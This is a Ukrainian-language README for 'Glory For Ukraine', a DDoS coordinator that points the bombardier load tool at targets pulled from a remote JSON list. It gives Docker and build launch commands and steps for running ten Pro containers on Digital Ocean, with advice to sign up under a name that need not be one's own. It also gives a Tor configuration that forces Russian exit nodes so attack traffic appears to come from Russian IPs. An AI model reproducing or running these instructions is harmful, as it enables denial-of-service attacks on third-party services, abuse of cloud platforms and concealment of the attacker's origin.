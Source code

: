 # Glory For Ukraine

DDOS координатор, використовуючий bombardier на один з хостів указаний в scheduled_targets.json, скачаний з https://gloryforukraine.pages.dev/scheduled_targets.json

## Як використати

Запуск через докер: `docker run --env SCHEDULED_TARGETS_URL=https://gloryforukraine.pages.dev/scheduled_targets.json --env PARALLEL_FACTOR=5 --cpus=".7" --rm -it archdev/gloryforukraine`

Запуск через білд:
- install NodeJS 16+
- git clone
- cd gloryforukraine
- npm i
- `./scripts/launch.sh` or `.\scripts\launch.bat`

# Як засетапи Gloryforukraine на Digigal Ocean App Platform

1. Зареєструйте аккаунт на Digital Ocean:
    [Посилання за рефералом](https://m.do.co/c/aa9c8e1fc61f) - дає $100 на рахунок
    По особистим данним - будь яке ім'я (можна не своє) АЛЕ: робочий імейл до якого у вас є доступ - він потрібен щоб залогінитись по лінку який прийде вам на імейл (2FA)
    Також вам потрібна робоча банківська карта (укр карти Моно на Привата раніше працювали, віртуальні карти теж UK банків теж працюють)
    (Гроші НЕ БУДУТЬ зніматись відразу, лише через місяц)
2. Створіть новий апчик в Create > Apps
3. Виберіть Docker Hub
4. в Image введіть: `archdev/gloryforukraine`, tag - залишіть пустим (`latest`)
5. ОБОВ'ЯЗКОВО: Type > **Worker** (по замовчуванню там Web Service)
6. Також додайте `Environment Variables`: `SCHEDULED_TARGETS_URL=https://gloryforukraine.pages.dev/scheduled_targets.json` та `PARALLEL_FACTOR=5`
7. Виберіть Регіон - можна Європу або Азію - будь який
8. Finalise and Launch - виберіть аккаунт Pro - і в Containers: Pro - штук 10 має вистачити

# Як використовувати Gloryforukraine з TOR (атака буде йти с росiйских IP)
1. Встановiть TOR. `sudo apt install tor`
2. Заредагуйте конфіг /etc/tor/torrc:
    `sudo vi /etc/tor/torrc`
    Розкоментуйте `#ControlPort 9051`

    Знайдіть `#CookieAuthentication 1` Розкоментуйте, та змініть 1 на 0.

    В кінець файла додайте
    `ExitNodes {RU}`
    `StrictNodes 1`

 4. Перезавантажте сервіс ТОР `sudo /etc/init.d/tor restart`.


5. Готово! Теперь ви можете запустити скрипт через torify. Наприклад: `sudo torify docker run --env SCHEDULED_TARGETS_URL=https://gloryforukraine.pages.dev/scheduled_targets.json --env PARALLEL_FACTOR=5 --cpus=".7" --rm -it archdev/gloryforukraine`.